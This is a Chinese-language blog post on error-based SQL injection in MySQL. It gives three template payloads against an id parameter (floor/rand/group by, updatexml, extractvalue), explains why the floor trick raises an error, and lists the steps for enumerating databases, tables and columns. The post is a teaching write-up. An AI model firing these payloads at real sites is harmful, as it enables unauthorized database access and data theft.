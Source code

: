 +++
date = "2016-06-22T15:30:54+08:00"
description = ""
draft = false
tags = ["注入", "报错注入"]
title = "SQL注入之报错型注入"
topics = ["Pentest","SQL Injection"]

+++

### 0x00 前提
> ```
一般是在页面没有显示位、但用echo mysql_error();输出了错误信息的时候使用，
它的特点是注入速度快，但是语句较复杂,不能用group_concat(),只能用limit依次猜解
```

### 0x01 利用方式
> count(*)、floor()、rand()、group by不可或缺  
报错注入用一个公式，只要套用公式即可，公式如下(后两个公式有32位的限制):  
?id=2' and (select 1 from <font color="00CDCD">(select <u>count(\*),<b>concat( floor(rand(0)*2),(select (select (查询语句)) from information_schema.tables limit 0,1))x</b></u> from information_schema.tables group by x )a</font>
)-\-+  
?id=2' and updatexml(1,concat(0x7e,(<font color="00CDCD">SELECT @@version</font>),0x7e),1)-\-+  
?id=1' and extractvalue(1, concat(0x7e, (<font color="00CDCD">select @@version</font>),0x7e))-\-+

### 0x02 公式解析
> ```
floor()是取整数
rand()在0和1之间产生一个随机数
rand(0)*2将取0到2的随机数
floor(rand()*2)有两条记录就会报错
floor(rand(0)*2)记录需为3条以上，且3条以上必报错，返回的值是有规律的
count(*)是用来统计结果的，相当于刷新一次结果
group by对数据分组时会先看看虚拟表里有没有这个值,若没有就插入,若存在则count(*)加1
group by时floor(rand(0)*2)会被执行一次,若虚表不存在记录,插入虚表时会再执行一次
```

### 0x03 注入步骤
* 得到闭合字符
* 猜列数、尝试爆显示位
* 得到数据库个数和数据库名
* 得到表个数和表名
* 得到列数量和列名
* 得到列值

#### 猜测闭合字符
> {{% fluid_img src="/img/post/sqli5_get_closed_character.png" alt="得到闭合字符" %}}
<br /><br />
{{% fluid_img src="/img/post/sqli5_check_closed_character.png" alt="确认闭合字符" %}}

#### 猜测列数
> {{% fluid_img src="/img/post/sqli5_order_by.png" alt="得到列数" %}}
